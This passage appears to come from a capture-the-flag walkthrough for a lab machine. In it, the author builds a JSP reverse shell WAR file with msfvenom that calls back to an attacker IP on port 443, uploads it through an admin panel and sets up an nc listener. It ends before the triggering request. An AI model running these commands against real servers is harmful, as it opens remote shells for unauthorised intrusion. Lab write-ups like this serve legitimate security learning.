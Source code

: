 ![](/assets/images/mercy/screenshot-9.png)

Logged into the administration panel we need to upload a reverse shell, on the attacking machine we create a war reverse shell as shown below:

``` bash
root@kali:~$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.179.1 LPORT=443 -f war -o reverse.war
```

Created our reverse shell we have to upload it, as shown in the following pictures:

![](/assets/images/mercy/screenshot-10.png)

![](/assets/images/mercy/screenshot-11.png)

**Getting a reverse shell**

Ones our war reverse shell is uploaded, we need set up an nc listener on port 443 waiting for incoming connections.

``` bash
root@kali:~$ nc -vlnp 443
listening on [any] 443 ...
```
Then we perform the following curl request and we get a shell, also with python we spawn a TTY shell, as shown below:

